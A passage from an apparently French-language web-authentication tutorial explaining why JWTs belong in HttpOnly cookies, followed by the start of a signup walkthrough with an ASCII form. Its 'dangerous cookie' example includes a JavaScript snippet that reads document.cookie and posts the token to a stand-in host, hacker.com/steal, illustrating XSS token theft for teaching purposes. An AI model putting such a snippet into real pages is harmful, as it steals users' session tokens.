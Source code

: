 **Le JWT est stocké dans un cookie spécial.**

#### Différence Cookie Normal vs HTTP-Only

**🔴 Cookie Normal (Dangereux)**

```javascript
// JavaScript peut lire le token
document.cookie = "token=eyJhbGci...";

// Un script malveillant peut voler le token
const token = document.cookie; // ❌ Accessible !
fetch('https://hacker.com/steal', { 
  method: 'POST', 
  body: token 
});
```

**🟢 Cookie HTTP-Only (Sécurisé)**

```javascript
// Créé par le serveur avec flag HttpOnly
Set-Cookie: next-auth.session-token=eyJhbGci...; HttpOnly; Secure; SameSite=Lax

// JavaScript NE PEUT PAS le lire
console.log(document.cookie); // ❌ Token invisible !

// Le browser l'envoie AUTOMATIQUEMENT
fetch('/api/members'); // ✅ Cookie envoyé automatiquement
```

**Avantages :**
- ✅ Pas accessible par JavaScript (protection XSS)
- ✅ Envoyé automatiquement à chaque requête
- ✅ Secure = HTTPS seulement en production
- ✅ SameSite = Protection CSRF

---

## 📋 Les Étapes Concrètes

### 🎬 Scénario Complet : Inscription → Connexion → Utilisation

---

### **ÉTAPE 1 : Inscription (Register)**

#### Ce que l'utilisateur voit

```
┌─────────────────────────────────┐
│  📝 Formulaire d'inscription    │
├─────────────────────────────────┤
│  Name:     [John Doe        ]   │
│  Email:    [john@example.com]   │
│  Password: [••••••••••••]       │
│  Gender:   [Male ▼]             │
│  Date:     [1995-06-15]         │
│  City:     [Paris]              │
│  Country:  [France]             │
│                                 │
│  [     SUBMIT     ]             │
└─────────────────────────────────┘
```
